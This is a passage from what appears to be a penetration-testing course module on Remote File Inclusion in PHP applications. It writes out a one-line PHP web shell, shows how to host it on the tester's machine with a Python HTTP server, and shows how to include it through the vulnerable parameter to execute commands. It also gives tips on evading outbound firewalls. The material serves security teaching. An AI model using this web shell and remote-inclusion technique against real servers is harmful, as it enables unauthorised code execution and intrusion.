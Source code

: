 ![](https://academy.hackthebox.com/storage/modules/23/lfi\_local\_url\_include.jpg)

As we can see, the `index.php` page got included in the vulnerable section (i.e. History Description), so the page is indeed vulnerable to RFI, as we are able to include URLs. Furthermore, the `index.php` page did not get included as source code text but got executed and rendered as PHP, so the vulnerable function also allows PHP execution, which may allow us to execute code if we include a malicious PHP script that we host on our machine.

We also see that we were able to specify port `80` and get the web application on that port. If the back-end server hosted any other local web applications (e.g. port `8080`), then we may be able to access them through the RFI vulnerability by applying SSRF techniques on it.

Note: It may not be ideal to include the vulnerable page itself (i.e. index.php), as this may cause a recursive inclusion loop and cause a DoS to the back-end server.

### Remote Code Execution with RFI

The first step in gaining remote code execution is creating a malicious script in the language of the web application, PHP in this case. We can use a custom web shell we download from the internet, use a reverse shell script, or write our own basic web shell as we did in the previous section, which is what we will do in this case:

```shell-session
root@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Now, all we need to do is host this script and include it through the RFI vulnerability. It is a good idea to listen on a common HTTP port like `80` or `443`, as these ports may be whitelisted in case the vulnerable web application has a firewall preventing outgoing connections. Furthermore, we may host the script through an FTP service or an SMB service, as we will see next.

### HTTP

Now, we can start a server on our machine with a basic python server with the following command, as follows:

```shell-session
root@htb[/htb]$ sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...
```

Now, we can include our local shell through RFI, like we did earlier, but using `<OUR_IP>` and our `<LISTENING_PORT>`. We will also specify the command to be executed with `&cmd=id`:

![](https://academy.hackthebox.com/storage/modules/23/rfi\_localhost.jpg)

As we can see, we did get a connection on our python server, and the remote shell was included, and we executed the specified command:

```shell-session
root@htb[/htb]$ sudo python3 -m http.server <LISTENING_PORT>
Serving HTTP on 0.0.0.0 port <LISTENING_PORT> (http://0.0.0.0:<LISTENING_PORT>/) ...

SERVER_IP - - [SNIP] "GET /shell.php HTTP/1.0" 200 -
```
